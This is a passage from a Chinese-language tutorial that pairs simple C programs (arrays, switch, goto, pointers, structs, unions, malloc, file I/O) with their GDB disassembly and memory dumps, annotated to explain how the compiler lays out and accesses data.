			highest_total = totals[player_counter];
			
			//this player_id variable will help us keep track of who the current leader is in points
			player_id = (player_counter + 1);
		}
	}

	//initialize a new float variable which will be our average
	//use the (float) operator to change the integer variable being divided into a float operation
	float ppg = (float)(highest_total / 4);
	printf("Player #%d had the highest scoring average at %.2f points per game.\n", player_id, ppg);
	
	return 0;

}
```

反汇编结果
```sh
6     //declare constant vars for these values
7     const int games = 4;
   0x00005555555551a7 <+30>:  mov    DWORD PTR [rbp-0x8c],0x4     # 常量也是在栈上分配的  

8     const int players = 5;
   0x00005555555551b1 <+40>:  mov    DWORD PTR [rbp-0x88],0x5

9  
10    //declare two-dimensional array to store scores for 5 players over 4 games;
11    //declare float array to store our totals for each player later
12    int scores[4][5];                                               # 一维/二维数组默认没有初始化和内存分配
13    int totals[5];
14    int highest_total;
15 
16    //we need an outer for loop counter and an inner for loop counter;
17    int game_counter, player_counter;
18 
19    //start outer loop (4 games)
20    for (game_counter = 0; game_counter < games; game_counter++)
   0x00005555555551bb <+50>:  mov    DWORD PTR [rbp-0x9c],0x0              # [rbp-0x9c], game_counter = 0  
   0x00005555555551c5 <+60>:  jmp    0x555555555268 <main+223>
   0x0000555555555261 <+216>: add    DWORD PTR [rbp-0x9c],0x1              #  game_counter++
   0x0000555555555268 <+223>: mov    eax,DWORD PTR [rbp-0x9c]              # 先不+1， 而是先比较  
   0x000055555555526e <+229>: cmp    eax,DWORD PTR [rbp-0x8c]              # 比较 game_counter < games
   0x0000555555555274 <+235>: jl     0x5555555551ca <main+65>

21    {
22       printf("Game #%d\n", (game_counter + 1));
   0x00005555555551ca <+65>:  mov    eax,DWORD PTR [rbp-0x9c]              # 
   0x00005555555551d0 <+71>:  add    eax,0x1
   0x00005555555551d3 <+74>:  mov    esi,eax
   0x00005555555551d5 <+76>:  lea    rdi,[rip+0xe2c]        # 0x555555556008 # "Game #%d\n"  
   0x00005555555551dc <+83>:  mov    eax,0x0
   0x00005555555551e1 <+88>:  call   0x555555555080 <printf@plt>

23 
24       //start inner loop for each player (5 players)
25       for (player_counter = 0; player_counter < players; player_counter++)
   0x00005555555551e6 <+93>:  mov    DWORD PTR [rbp-0x98],0x0
   0x00005555555551f0 <+103>: jmp    0x555555555253 <main+202>
   0x000055555555524c <+195>: add    DWORD PTR [rbp-0x98],0x1
   0x0000555555555253 <+202>: mov    eax,DWORD PTR [rbp-0x98]
   0x0000555555555259 <+208>: cmp    eax,DWORD PTR [rbp-0x88]
   0x000055555555525f <+214>: jl     0x5555555551f2 <main+105>

26       {
27          printf("Enter scoring total for Player #%d: ", (player_counter + 1));
   0x00005555555551f2 <+105>: mov    eax,DWORD PTR [rbp-0x98]
   0x00005555555551f8 <+111>: add    eax,0x1
   0x00005555555551fb <+114>: mov    esi,eax
   0x00005555555551fd <+116>: lea    rdi,[rip+0xe14]        # 0x555555556018
   0x0000555555555204 <+123>: mov    eax,0x0
   0x0000555555555209 <+128>: call   0x555555555080 <printf@plt>

28 
29          //put the score into the scores array
30          scanf("%d", &scores[game_counter][player_counter]);
   0x000055555555520e <+133>: lea    rcx,[rbp-0x60]
   0x0000555555555212 <+137>: mov    eax,DWORD PTR [rbp-0x98]
   0x0000555555555218 <+143>: movsxd rsi,eax
   0x000055555555521b <+146>: mov    eax,DWORD PTR [rbp-0x9c]
   0x0000555555555221 <+152>: movsxd rdx,eax
   0x0000555555555224 <+155>: mov    rax,rdx
   0x0000555555555227 <+158>: shl    rax,0x2
   0x000055555555522b <+162>: add    rax,rdx
   0x000055555555522e <+165>: add    rax,rsi
   0x0000555555555231 <+168>: shl    rax,0x2
   0x0000555555555235 <+172>: add    rax,rcx
   0x0000555555555238 <+175>: mov    rsi,rax
   0x000055555555523b <+178>: lea    rdi,[rip+0xdfb]        # 0x55555555603d
   0x0000555555555242 <+185>: mov    eax,0x0
   0x0000555555555247 <+190>: call   0x555555555090 <__isoc99_scanf@plt>

31       }
32    }
```

二维数组
```sh
-exec p scores
$1 = {{6, 8, 9, 2, 4}, {1, 2, 3, 4, 1}, {3, 4, 5, 6, 7}, {5, 4, 3, 2, 1}}
-exec p &scores
$2 = (int (*)[4][5]) 0x7fffffffe000
-exec p &scores[0]
$9 = (int (*)[5]) 0x7fffffffe000
-exec p &scores[1]
$4 = (int (*)[5]) 0x7fffffffe014          # 5 x 4 = 20 byte
-exec p &scores[2]
$5 = (int (*)[5]) 0x7fffffffe028          
-exec p &scores[3]
$6 = (int (*)[5]) 0x7fffffffe03c

一共占用 4 x 5 x 4 = 80 byte  
-exec x/20xw 0x7fffffffe000
0x7fffffffe000:	0x00000006	0x00000008	0x00000009	0x00000002
0x7fffffffe010:	0x00000004	0x00000001	0x00000002	0x00000003
0x7fffffffe020:	0x00000004	0x00000001	0x00000003	0x00000004
0x7fffffffe030:	0x00000005	0x00000006	0x00000007	0x00000005
0x7fffffffe040:	0x00000004	0x00000003	0x00000002	0x00000001

在内存中顺序排列的  
```

[:books: 返回目录](#目录)

## switch

```c
#include <stdio.h>
 
int main ()
{
   /* 局部变量定义 */
   char grade = 'B';
 
   switch(grade)
   {
   case 'A' :
      printf("很棒！\n" );
      break;
   case 'B' :
   case 'C' :
      printf("做得好\n" );
      break;
   case 'D' :
      printf("您通过了\n" );
      break;
   case 'F' :
      printf("最好再试一下\n" );
      break;
   default :
      printf("无效的成绩\n" );
   }
   printf("您的成绩是 %c\n", grade );
 
   return 0;
}
```

反汇编内容是:  
```sh
5     /* 局部变量定义 */
6     char grade = 'B';
   0x0000555555555175 <+12>:  mov    BYTE PTR [rbp-0x1],0x42

7   
8     switch(grade)
   0x0000555555555179 <+16>:  movsx  eax,BYTE PTR [rbp-0x1]     # switch是比较后在跳转，跳转之后再break就结束判断了
   0x000055555555517d <+20>:  cmp    eax,0x46
   0x0000555555555180 <+23>:  je     0x5555555551cf <main+102>
   0x0000555555555182 <+25>:  cmp    eax,0x46
   0x0000555555555185 <+28>:  jg     0x5555555551dd <main+116>
   0x0000555555555187 <+30>:  cmp    eax,0x44
   0x000055555555518a <+33>:  je     0x5555555551c1 <main+88>
   0x000055555555518c <+35>:  cmp    eax,0x44
   0x000055555555518f <+38>:  jg     0x5555555551dd <main+116>
   0x0000555555555191 <+40>:  cmp    eax,0x41
   0x0000555555555194 <+43>:  je     0x5555555551a5 <main+60>
   0x0000555555555196 <+45>:  cmp    eax,0x41
   0x0000555555555199 <+48>:  jl     0x5555555551dd <main+116>
   0x000055555555519b <+50>:  sub    eax,0x42
   0x000055555555519e <+53>:  cmp    eax,0x1
   0x00005555555551a1 <+56>:  ja     0x5555555551dd <main+116>
   0x00005555555551a3 <+58>:  jmp    0x5555555551b3 <main+74>

9     {
10    case 'A' :
11       printf("很棒！\n" );
   0x00005555555551a5 <+60>:  lea    rdi,[rip+0xe58]        # 0x555555556004
   0x00005555555551ac <+67>:  call   0x555555555060 <puts@plt>

12       break;
   0x00005555555551b1 <+72>:  jmp    0x5555555551e9 <main+128>

13    case 'B' :
14    case 'C' :
15       printf("做得好\n" );
=> 0x00005555555551b3 <+74>:  lea    rdi,[rip+0xe54]        # 0x55555555600e
   0x00005555555551ba <+81>:  call   0x555555555060 <puts@plt>

16       break;
   0x00005555555551bf <+86>:  jmp    0x5555555551e9 <main+128>
```

[:books: 返回目录](#目录)

## goto 

```c
#include <stdio.h>
 
int main ()
{
   /* 局部变量定义 */
   int a = 10;
 
   /* do 循环执行 */
   LOOP:do
   {
      if( a == 15)
      {
         /* 跳过迭代 */
         a = a + 1;
         goto LOOP;
      }
      printf("a 的值： %d\n", a);
      a++;
     
   }while( a < 20 );
 
   return 0;
}
```

输出结果: 
```sh
a 的值： 10
a 的值： 11
a 的值： 12
a 的值： 13
a 的值： 14
a 的值： 16
a 的值： 17
a 的值： 18
a 的值： 19
```

反汇编内容
```sh
7	 
8	   /* do 循环执行 */
9	   LOOP:do
   0x000055555555515e <+21>:	nop                             # (No Operation)  可以使用于原程序中验证部分使用 nop 来填充，使验证失效  

10	   {
11	      if( a == 15)
   0x000055555555515f <+22>:	cmp    DWORD PTR [rbp-0x4],0xf
   0x0000555555555163 <+26>:	jne    0x55555555516b <main+34>

12	      {
13	         /* 跳过迭代 */
14	         a = a + 1;
=> 0x0000555555555165 <+28>:	add    DWORD PTR [rbp-0x4],0x1

15	         goto LOOP;
   0x0000555555555169 <+32>:	jmp    0x55555555515f <main+22> # jmp 指令， 和if、switch都具有跳转功能  

16	      }
```

[:books: 返回目录](#目录)
## 引用与指针  

```c
#include <stdio.h>

int main(void)
{
    int number = 21;
    int copy_number = 0;
    copy_number = number;

    int *ptr = &number;

    printf("The value of our pointer is: %p\n", ptr);

	return 0;
}
```

反汇编内容
```sh
5     int number = 21;
   0x0000555555555184 <+27>:  mov    DWORD PTR [rbp-0x18],0x15    

6     int copy_number = 0;
   0x000055555555518b <+34>:  mov    DWORD PTR [rbp-0x14],0x0   # [rbp-0x14] 存储的内容是 0  

7     copy_number = number;
   0x0000555555555192 <+41>:  mov    eax,DWORD PTR [rbp-0x18]
   0x0000555555555195 <+44>:  mov    DWORD PTR [rbp-0x14],eax   # mov 把 [rbp-0x18]的内容拷贝到 [rbp-0x14]  

8 
9     int *ptr = &number;                                       # &number 相当于取地址 lea  
=> 0x0000555555555198 <+47>:  lea    rax,[rbp-0x18]             # 把 [rbp-0x18] 地址的值加载到 rax   
   0x000055555555519c <+51>:  mov    QWORD PTR [rbp-0x10],rax   # 把 [rbp-0x18] 地址存储到 [rbp-0x10]
```

[:books: 返回目录](#目录)


## 数组  
```c
#include <stdio.h>

int main(void)
{
	int array[10];

	printf("%p\n", array);
	printf("%p\n", &array[0]);

	return 0;
}
```

输出结果: 数组名和数组第一个元素的地址为同一个  
```sh
0x7fffffffe030
0x7fffffffe030
```

反汇编内容
```sh
5   int array[10];
6 
7   printf("%p\n", array);
   0x0000555555555184 <+27>:  lea    rax,[rbp-0x30]         # 打印数组前，先获取数组变量的地址  
   0x0000555555555188 <+31>:  mov    rsi,rax
   0x000055555555518b <+34>:  lea    rdi,[rip+0xe72]        # 0x555555556004  "%p\n"  
   0x0000555555555192 <+41>:  mov    eax,0x0
   0x0000555555555197 <+46>:  call   0x555555555070 <printf@plt>

8   printf("%p\n", &array[0]);
   0x000055555555519c <+51>:  lea    rax,[rbp-0x30]
   0x00005555555551a0 <+55>:  mov    rsi,rax
   0x00005555555551a3 <+58>:  lea    rdi,[rip+0xe5a]        # 0x555555556004
   0x00005555555551aa <+65>:  mov    eax,0x0
   0x00005555555551af <+70>:  call   0x555555555070 <printf@plt>

9 
10    return 0;
=> 0x00005555555551b4 <+75>:  mov    eax,0x0
```

[:books: 返回目录](#目录)

## 函数调用

```c
#include <stdio.h>

void hello(void);

int main(void)
{
	hello();

	return 0;
}

void hello(void)
{
	printf("Hello, World!\n");
}
```

反汇编内容:
```sh
-exec disas /m
Dump of assembler code for function main:
6 {
   0x0000555555555149 <+0>: endbr64 
   0x000055555555514d <+4>: push   rbp
   0x000055555555514e <+5>: mov    rbp,rsp

7   hello();
   0x0000555555555151 <+8>: call   0x55555555515d <hello>   # 函数调用，函数参数都在寄存器中  

8 
9   return 0;
=> 0x0000555555555156 <+13>:  mov    eax,0x0


-exec disas /m
Dump of assembler code for function hello:
13  {
   0x000055555555515d <+0>: endbr64 
   0x0000555555555161 <+4>: push   rbp
   0x0000555555555162 <+5>: mov    rbp,rsp

14    printf("Hello, World!\n");
=> 0x0000555555555165 <+8>: lea    rdi,[rip+0xe98]        # 0x555555556004
   0x000055555555516c <+15>:  call   0x555555555050 <puts@plt>

15  }
   0x0000555555555171 <+20>:  nop
   0x0000555555555172 <+21>:  pop    rbp
   0x0000555555555173 <+22>:  ret    
```

[:books: 返回目录](#目录)

## char数组  

```c
#include <stdio.h>

void hello(void)
{
	char array[] = {72, 101, 108, 108, 111, 44, 32, 87, 111, 114, 108, 100, 33};

	printf("%s\n", array);
}

int main(void) 
{
	hello();
}
```

打印输出`Hello, World!`  
`puts`打印为`{72, 101, 108, 108, 111, 44, 32, 87, 111, 114, 108, 100, 33}`

查看数组内容
```sh
-exec p array
$2 = "Hello, World!"
-exec p &array
$3 = (char (*)[13]) 0x7fffffffe03b
-exec x/16c &array
0x7fffffffe03b:	72 'H'	101 'e'	108 'l'	108 'l'	111 'o'	44 ','	32 ' '	87 'W'
0x7fffffffe043:	111 'o'	114 'r'	108 'l'	100 'd'	33 '!'	0 '\000'	103 'g'	-16 '\360'
-exec x/16x &array
0x7fffffffe03b:	0x48	0x65	0x6c	0x6c	0x6f	0x2c	0x20	0x57
0x7fffffffe043:	0x6f	0x72	0x6c	0x64	0x21	0x00	0x67	0xf0
```

```c
#include <stdio.h>


void hello(void)
{
	char array[] = {72, 101, 108, 108, 111, 44, 32, 87, 111, 114, 108, 100, 33, '\0'};

	printf("%s\n", array);
}

int main(void) 
{
	hello();
}
```

打印输出`Hello, World!`  
`puts`打印为`{72, 101, 108, 108, 111, 44, 32, 87, 111, 114, 108, 100, 33, '`

查看数组内容
```sh
-exec p array
$1 = "Hello, World!"
-exec p &array
$2 = (char (*)[14]) 0x7fffffffe03a
-exec x/16c &array
0x7fffffffe03a:	72 'H'	101 'e'	108 'l'	108 'l'	111 'o'	44 ','	32 ' '	87 'W'
0x7fffffffe042:	111 'o'	114 'r'	108 'l'	100 'd'	33 '!'	0 '\000'	0 '\000'	93 ']'

-exec call sizeof(array)
$1 = 14
```

为什么`char`数组后会增加`'\0'`?  

如果使用字符串初始化字符数组: 
```c
#include <stdio.h>


void hello(void)
{
	char array[] = "Hello, World!";

	printf("%s\n", array);
}

int main(void) 
{
	hello();
}
```

查看数组内容
```sh
-exec p array
$1 = "Hello, World!"
$2 = (char (*)[14]) 0x7fffffffe03a

-exec x/16c &array
0x7fffffffe03a:	72 'H'	101 'e'	108 'l'	108 'l'	111 'o'	44 ','	32 ' '	87 'W'
0x7fffffffe042:	111 'o'	114 'r'	108 'l'	100 'd'	33 '!'	0 '\000'	0 '\000'	-114 '\216'
```

> 字符串之后增加了一位`\0`,数组的长度也是 13+1 = 14 , 经过验证，int数组最后一位+1，也是`\0`   

[:books: 返回目录](#目录)  

## malloc
```c
#include <stdio.h>
#include <stdlib.h>

int main (void)
{
	//create char pointer
	char *ptr;

	//ptr is now the memory address of the beginning of this 10 char element array.
	//we used the sizeof() function to make sure that the size of memory allocated is 10 units on any host
	ptr = malloc(10 * sizeof(char));

	//if malloc fails, our ptr pointer will be pointing towards a NULL value, this checks for that
	if (ptr == NULL)
	{
		printf("Memory could not be allocated.");
		return 1;
	}
	else 
	{
		printf("Memory was successfully allocated.");
		//this makes sure we don't keep memory allocated that we're not using.
		free(ptr);
		return 0;
	}
}
```

反汇编结果
```sh
6   //create char pointer
7   char *ptr;
8 
9   //ptr is now the memory address of the beginning of this 10 char element array.
10    //we used the sizeof() function to make sure that the size of memory allocated is 10 units on any host
11    ptr = malloc(10 * sizeof(char));
=> 0x0000555555555195 <+12>:  mov    edi,0xa
   0x000055555555519a <+17>:  call   0x555555555090 <malloc@plt>
   0x000055555555519f <+22>:  mov    QWORD PTR [rbp-0x8],rax         # 返回值为`void*`, 也就是把变量存储到ptr中，省去了lea操作  

12  
13    //if malloc fails, our ptr pointer will be pointing towards a NULL value, this checks for that
14    if (ptr == NULL)
   0x00005555555551a3 <+26>:  cmp    QWORD PTR [rbp-0x8],0x0
   0x00005555555551a8 <+31>:  jne    0x5555555551c2 <main+57>

15    {
16      printf("Memory could not be allocated.");
   0x00005555555551aa <+33>:  lea    rdi,[rip+0xe57]        # 0x555555556008
   0x00005555555551b1 <+40>:  mov    eax,0x0
   0x00005555555551b6 <+45>:  call   0x555555555080 <printf@plt>

17      return 1;
   0x00005555555551bb <+50>:  mov    eax,0x1
   0x00005555555551c0 <+55>:  jmp    0x5555555551e4 <main+91>

18    }
19    else 
20    {
21      printf("Memory was successfully allocated.");
   0x00005555555551c2 <+57>:  lea    rdi,[rip+0xe5f]        # 0x555555556028
   0x00005555555551c9 <+64>:  mov    eax,0x0
   0x00005555555551ce <+69>:  call   0x555555555080 <printf@plt>

22      //this makes sure we don't keep memory allocated that we're not using.
23      free(ptr);
   0x00005555555551d3 <+74>:  mov    rax,QWORD PTR [rbp-0x8]
   0x00005555555551d7 <+78>:  mov    rdi,rax
   0x00005555555551da <+81>:  call   0x555555555070 <free@plt>

24      return 0;
   0x00005555555551df <+86>:  mov    eax,0x0

25    }
26  }
   0x00005555555551e4 <+91>:  leave  
   0x00005555555551e5 <+92>:  ret   
```

[:books: 返回目录](#目录)

## struct结构体

```c
#include <stdio.h>
#include <stdlib.h>

//define structure
struct struct_name
{
	int integer;
	char character;
	float floatie;
//give an instance of the structure the name 'example'
} example;

int main (void)
{
	//use the . notation to refer to the members of the 'example' instance of the 'struct_name' struct
	example.integer = 50;
	example.character = 'W';
	example.floatie = 3.14;

  struct struct_name name;
  name.integer = 8;
  name.character = 'H';
  name.floatie = 2.0;

	printf("This is the int: %d", example.integer);
	printf(", this is the char: %c", example.character);
	printf(", this is the float: %.2f\n", example.floatie);
	
	return 0;
	
}
```

反汇编内容:  
```sh
15    //use the . notation to refer to the members of the 'example' instance of the 'struct_name' struct
16    example.integer = 50;
=> 0x0000555555555155 <+12>:  mov    DWORD PTR [rip+0x2eb9],0x32        # 0x555555558018 <example>

17    example.character = 'W';
   0x000055555555515f <+22>:  mov    BYTE PTR [rip+0x2eb6],0x57        # 0x55555555801c <example+4>

18    example.floatie = 3.14;
   0x0000555555555166 <+29>:  movss  xmm0,DWORD PTR [rip+0xede]        # 0x55555555604c
   0x000055555555516e <+37>:  movss  DWORD PTR [rip+0x2eaa],xmm0        # 0x555555558020 <example+8>

19  
20    struct struct_name name;
21    name.integer = 8;
   0x0000555555555176 <+45>:  mov    DWORD PTR [rbp-0xc],0x8

22    name.character = 'H';
   0x000055555555517d <+52>:  mov    BYTE PTR [rbp-0x8],0x48

23    name.floatie = 2.0;
   0x0000555555555181 <+56>:  movss  xmm0,DWORD PTR [rip+0xec7]        # 0x555555556050
   0x0000555555555189 <+64>:  movss  DWORD PTR [rbp-0x4],xmm0
```

从内容来看，结构体也是线性存储的，按照偏移量来， 查看内存结构
```sh
-exec p example
$1 = {integer = 0, character = 0 '\000', floatie = 0}
-exec p &example
$2 = (struct struct_name *) 0x555555558018 <example>
-exec call sizeof(example)
$3 = 12                             # 长度为 4 + 4 + 4  
-exec call sizeof(&example)
$4 = 8                              # 指针的大小为8
```

```sh
-exec x/4xw 0x555555558018
#                                   50          'W'       3.14  
0x555555558018 <example>:	0x00000032	0x00000057	0x4048f5c3	0x00000000
```

> char这里占用4个字节，单独申请的话，是一个字节。  

内存对齐主要遵循下面三个原则:  
- 结构体变量的起始地址能够被其最宽的成员大小整除
- 结构体每个成员相对于起始地址的偏移能够被其自身大小整除，如果不能则在前一个成员后面补充字节
- 结构体总体大小能够被最宽的成员的大小整除，如不能则在后面补充字  

这个其实是编译器做的事情，这样访问的效率更高，但是会有空间的浪费。  


[:books: 返回目录](#目录)  

## 共用体 union 

```c
#include <stdio.h>
#include <string.h>
 
union Data
{
   int i;
   float f;
   char  str[20];
};
 
int main( )
{
   union Data data;        
   data.i = 16;
   data.str[0] = 'H';
   data.str[19] = 'E';
   printf( "Memory size occupied by data : %d\n", sizeof(data));
 
   return 0;
}
```

查看data内容
```sh
-exec p &data
$1 = (union Data *) 0x7fffffffe040            # data的首地址与i/str的首地址一致
-exec p &data.i
$2 = (int *) 0x7fffffffe040
-exec p &data.str
$3 = (char (*)[20]) 0x7fffffffe040
-exec x/24xb &data                            # 但是数据区域内初始化时，有个0x80, 0x50 ?
0x7fffffffe040:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe048:	0x80	0x50	0x55	0x55	0x55	0x55	0x00	0x00
0x7fffffffe050:	0x50	0xe1	0xff	0xff	0xff	0x7f	0x00	0x00

# data.i = 16;
-exec x/24xb &data
0x7fffffffe040:	0x10	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe048:	0x80	0x50	0x55	0x55	0x55	0x55	0x00	0x00
0x7fffffffe050:	0x50	0xe1	0xff	0xff	0xff	0x7f	0x00	0x00

# data.str[0] = 'H';
-exec x/24xb &data
0x7fffffffe040:	0x48	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe048:	0x80	0x50	0x55	0x55	0x55	0x55	0x00	0x00
0x7fffffffe050:	0x50	0xe1	0xff	0xff	0xff	0x7f	0x00	0x00

# data.str[19] = 'E';                    # 第20位有改变0xff->0x45  
-exec x/24xb &data
0x7fffffffe040:	0x48	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe048:	0x80	0x50	0x55	0x55	0x55	0x55	0x00	0x00
0x7fffffffe050:	0x50	0xe1	0xff	0x45	0xff	0x7f	0x00	0x00
```

联合体的堆栈没有初始化时，会存在脏数据的。  


反汇编内容:  
```sh
13    union Data data;        
14    data.i = 16;                                             # data.i 与 data.str[0] 的地址一样  
   0x0000555555555184 <+27>:  mov    DWORD PTR [rbp-0x20],0x10

15    data.str[0] = 'H';
   0x000055555555518b <+34>:  mov    BYTE PTR [rbp-0x20],0x48

16    data.str[19] = 'E';
   0x000055555555518f <+38>:  mov    BYTE PTR [rbp-0xd],0x45
```


## 结构体引用结构体   

```c
#include <stdio.h>
#include <string.h>

struct data {
	char first[20];
	char last[20];
	int employee_id;
	int last_4_SSN;
	char title[20];
};

struct employees {
	struct data employee1;
	struct data employee2;
} engineering_dept;

int main(void)
{
	//scanf the input into the correct variable
	//engineering_dept = name of the instance of the 'employees' struct
	//employee1 = member of the 'employees' struct
	//first = member of the 'data' struct
	//notice that employee1 and employee2 are 'data' struct instances themselves
	for(int i = 0; i < 2; i++) {
		struct data *employee = &engineering_dept.employee1;
		if(i > 0)
			employee = &engineering_dept.employee2;

		printf("Enter the employee's first name: ");
		scanf("%s", &employee->first);

		printf("Enter the employee's last name: ");
		scanf("%s", &employee->last);

		printf("Enter the employee's ID number: ");
		scanf("%d", &employee->employee_id);

		printf("Enter the last four digits of the employee's SSN: ");
		scanf("%d", &employee->last_4_SSN);

		printf("Enter the employee's job title (do not include the word \'Engineer\'): ");
		scanf("%s", &employee->title);

		puts("");
	}

	//print all the info we just stored for each employee
	for(int i = 0; i < 2; i++) {
		struct data *employee = &engineering_dept.employee1;
		if(i > 0)
			employee = &engineering_dept.employee2;

		printf("\nEmployee information for %s %s: ", employee->first, employee->last);
		printf("\nID: %d", employee->employee_id);
		printf("\nSSN: %d", employee->last_4_SSN);
		printf("\nTitle: %s Engineer\n", employee->title);
	}

	return 0;
}
```

输入与输出  
```
Enter the employee's first name: tian
Enter the employee's last name: ze
Enter the employee's ID number: 1
Enter the last four digits of the employee's SSN: Engineer 1
Enter the employee's job title (do not include the word 'Engineer'): 

Employee information for tian ze: 
ID: 1
SSN: 0
Title: Engineer Engineer
```

反汇编内容
```sh
25      struct data *employee = &engineering_dept.employee1; # struct data employee1; 存储的是值，全是栈的，
   0x00005555555551a1 <+24>:  lea    rax,[rip+0x2e98]        # 0x555555558040 <engineering_dept>
   0x00005555555551a8 <+31>:  mov    QWORD PTR [rbp-0x10],rax

27        employee = &engineering_dept.employee2;            # 结构体占用68字节，所以偏移量是68  
   0x00005555555551b2 <+41>:  lea    rax,[rip+0x2ecb]        # 0x555555558084 <engineering_dept+68> 
   0x00005555555551b9 <+48>:  mov    QWORD PTR [rbp-0x10],rax

30      scanf("%s", &employee->first);
   0x00005555555551ce <+69>:  mov    rax,QWORD PTR [rbp-0x10]
   0x00005555555551d2 <+73>:  mov    rsi,rax
   0x00005555555551d5 <+76>:  lea    rdi,[rip+0xe4e]        # 0x55555555602a
   0x00005555555551dc <+83>:  mov    eax,0x0
   0x00005555555551e1 <+88>:  call   0x555555555090 <__isoc99_scanf@plt>

31  
32      printf("Enter the employee's last name: ");
   0x00005555555551e6 <+93>:  lea    rdi,[rip+0xe43]        # 0x555555556030
   0x00005555555551ed <+100>: mov    eax,0x0
   0x00005555555551f2 <+105>: call   0x555555555080 <printf@plt>

33      scanf("%s", &employee->last);
   0x00005555555551f7 <+110>: mov    rax,QWORD PTR [rbp-0x10]
   0x00005555555551fb <+114>: add    rax,0x14               # 偏移量为20  
   0x00005555555551ff <+118>: mov    rsi,rax
   0x0000555555555202 <+121>: lea    rdi,[rip+0xe21]        # 0x55555555602a
   0x0000555555555209 <+128>: mov    eax,0x0
   0x000055555555520e <+133>: call   0x555555555090 <__isoc99_scanf@plt>
```


[:books: 返回目录](#目录)  

## 结构体数组 

```c
#include <stdio.h>

//define stats struct
struct stats {
	int points;
	int games;
};

//create instance of 5 players stats structs
struct stats players[5];

int counter;

int main (void)
{
	//loop through getting input for both stats members for each stats players struct
	for (counter = 0; counter < 5; counter++)
	{
		printf("Enter Player %d's point total: ", (counter + 1));
		scanf("%d", &players[counter].points);

		printf("Enter Player %d's game total: ", (counter + 1));
		scanf("%d", &players[counter].games);
	}

	printf("\n");
	
	//you know this by now, you're a C god
	for (counter = 0; counter < 5; counter++)
	{
		float average = (float)(players[counter].points)/(players[counter].games);

		printf("Player %d's scoring average was %.2f ppg.\n", (counter + 1), average);
	}
	
	return 0;
}
```

输出:
```sh
Enter Player 1's point total: 9
Enter Player 1's game total: 13
Enter Player 2's point total: 12
Enter Player 2's game total: 3
Enter Player 3's point total: 1
Enter Player 3's game total: 4
Enter Player 4's point total: 3
Enter Player 4's game total: 2
Enter Player 5's point total: 1
Enter Player 5's game total: 4

Player 1's scoring average was 0.69 ppg.
Player 2's scoring average was 4.00 ppg.
Player 3's scoring average was 0.25 ppg.
Player 4's scoring average was 1.50 ppg.
Player 5's scoring average was 0.25 ppg.
```

反汇编内容:  
```sh
16    //loop through getting input for both stats members for each stats players struct
17    for (counter = 0; counter < 5; counter++)
   0x0000555555555195 <+12>:  mov    DWORD PTR [rip+0x2ec9],0x0        # 0x555555558068 <counter>   # counter = 0;
   0x000055555555519f <+22>:  jmp    0x55555555524b <main+194>
   0x000055555555523c <+179>: mov    eax,DWORD PTR [rip+0x2e26]        # 0x555555558068 <counter>   # rip 动态变化的 
   0x0000555555555242 <+185>: add    eax,0x1
   0x0000555555555245 <+188>: mov    DWORD PTR [rip+0x2e1d],eax        # 0x555555558068 <counter>
   0x000055555555524b <+194>: mov    eax,DWORD PTR [rip+0x2e17]        # 0x555555558068 <counter>
   0x0000555555555251 <+200>: cmp    eax,0x4
   0x0000555555555254 <+203>: jle    0x5555555551a4 <main+27>

18    {
19       printf("Enter Player %d's point total: ", (counter + 1));
   0x00005555555551a4 <+27>:  mov    eax,DWORD PTR [rip+0x2ebe]        # 0x555555558068 <counter>
   0x00005555555551aa <+33>:  add    eax,0x1                           # counter + 1
   0x00005555555551ad <+36>:  mov    esi,eax
   0x00005555555551af <+38>:  lea    rdi,[rip+0xe52]        # 0x555555556008
   0x00005555555551b6 <+45>:  mov    eax,0x0
   0x00005555555551bb <+50>:  call   0x555555555080 <printf@plt>

20       scanf("%d", &players[counter].points);
   0x00005555555551c0 <+55>:  mov    eax,DWORD PTR [rip+0x2ea2]        # 0x555555558068 <counter>  读取counter的值
   0x00005555555551c6 <+61>:  cdqe   
   0x00005555555551c8 <+63>:  lea    rdx,[rax*8+0x0]         # counter x 8 , 也就是偏移8字节， 每次偏移8个字节  
   0x00005555555551d0 <+71>:  lea    rax,[rip+0x2e69]        # 0x555555558040 <players>
   0x00005555555551d7 <+78>:  add    rax,rdx                 # players[counter].points = players_addr + counter * 8 + 0
   0x00005555555551da <+81>:  mov    rsi,rax
   0x00005555555551dd <+84>:  lea    rdi,[rip+0xe44]        # 0x555555556028
   0x00005555555551e4 <+91>:  mov    eax,0x0
   0x00005555555551e9 <+96>:  call   0x555555555090 <__isoc99_scanf@plt>
```

[:books: 返回目录](#目录)  


## 指针操作

```c
#include <stdio.h>

struct example {
	int integer;
};

int main (void)
{
	struct example *ptr;
	struct example test;

	ptr = &test;

	test.integer = 5;
	printf("%d\n", test.integer);

	(*ptr).integer = 6;
	printf("%d\n", test.integer);

	ptr->integer = 7;
	printf("%d\n", test.integer);

	return 0;
}
```

输出
```sh
5
6
7
```

反汇编结果
```sh
9     struct example *ptr;
10    struct example test;
11 
12    ptr = &test;
   0x0000555555555184 <+27>:  lea    rax,[rbp-0x14]                    # [rbp-0x14] 是 test 变量的地址， 把test的地址存储到ptr变量中  
   0x0000555555555188 <+31>:  mov    QWORD PTR [rbp-0x10],rax

13 
14    test.integer = 5;
   0x000055555555518c <+35>:  mov    DWORD PTR [rbp-0x14],0x5

16 
17    (*ptr).integer = 6;
   0x00005555555551a9 <+64>:  mov    rax,QWORD PTR [rbp-0x10]         # (*ptr) 相当于去除指针指向的地址，也就是test变量的地址  
   0x00005555555551ad <+68>:  mov    DWORD PTR [rax],0x6

19 
20    ptr->integer = 7;
   0x00005555555551c9 <+96>:  mov    rax,QWORD PTR [rbp-0x10]         # ptr->integer 就是相当于对指向的内容进行操作  
   0x00005555555551cd <+100>: mov    DWORD PTR [rax],0x7
```

[:books: 返回目录](#目录)  


## 文件操作  

```c
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

int main (void)
{
	int filedescriptor;

	filedescriptor = open("testfile.txt", O_WRONLY | O_CREAT, S_IRWXU);

	if (filedescriptor < 0)
	{
		printf("The open operation failed...");
		return -1;
	}
	else 
	{
		printf("The open operation succeeded!\n");
		
	}

	int writertn;

	writertn = write(filedescriptor, "Writing test data to the file", 30);

	if (writertn != 30)
	{
		printf("The write operation failed...");
		return -1;
	}
	else
	{
		printf("The write operation succeeded!");
	}

	if (close(filedescriptor) != 0)
	{
		printf("The close operation failed...");
		return -1;
	}

	return 0;

}
```

反汇编内容  
```sh
